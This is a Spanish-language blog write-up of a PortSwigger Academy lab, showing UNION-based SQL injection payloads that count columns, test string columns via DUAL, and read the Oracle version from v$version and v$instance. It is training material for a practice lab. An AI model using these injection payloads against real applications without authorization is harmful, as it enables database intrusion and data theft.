

+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 7"
date = "2021-11-04"
description = "Lab: SQL injection attack, querying the database type and version on Oracle"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, querying the database type and version on Oracle

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer la version de Oracle especificamente algo sobre este string `Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production`

## Reconocimiento

Ya que sabemos que el gestor es Oracle, se utilizaran payloads de Oracle y la manera de extraer los datos es muy diferente, siguiendo los pasos anteriores tocara enumerar columnas

###  Payloads

#### Detectar columnas

```sql
Pets' order by 1--
Pets' order by 2--
Pets' order by 3-- //Genera error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude. En este caso `Oracle` como se nota no se puede enviar un select sin el valor from, ya que es algo propio de Oracle que es una tabla especial.

```sql
Pets' union select 'test','test' from DUAL--
```
### Recuperar version

Ahora recuperar la version, las consultas utilizadas para esto en `Oracle` son las siguientes:

```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
La inyeccion quedaria de la siguiente manera:

```sql
Pets' union SELECT banner,null FROM v$version--
Pets' union SELECT version,null FROM v$instance--
```


Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)